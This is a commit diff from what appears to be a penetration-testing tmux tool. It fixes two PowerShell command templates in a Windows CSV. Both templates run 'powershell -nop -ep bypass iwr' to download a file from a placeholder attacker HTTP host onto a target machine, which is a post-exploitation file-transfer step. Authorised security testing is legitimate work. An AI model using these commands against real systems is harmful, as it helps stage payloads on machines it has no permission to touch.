

Before and after one commit to mfulz/tmux-penmux, a CSV file: modules/auxiliary/comm/httpexchange/commands/windows.csv, drawn as a sheet.

Commit message:
Fixes
- HttpExchanger: Fixed wrong ps commands

```diff
--- a/modules/auxiliary/comm/httpexchange/commands/windows.csv
+++ b/modules/auxiliary/comm/httpexchange/commands/windows.csv
@@ -1,3 +1,3 @@
 name,description,command
-psIwrHome,Download file using powershell webrequest into home dir,powershell -nop -ep bypass iwr -uri -outfile $HOME/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
-psIwr,Download file using powershell webrequest into act dir,powershell -nop -ep bypass iwr -uri -outfile $$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
+psIwrHome,Download file using powershell webrequest into home dir,powershell -nop -ep bypass iwr -outfile $HOME/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
+psIwr,Download file using powershell webrequest into act dir,powershell -nop -ep bypass iwr -outfile $$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
```
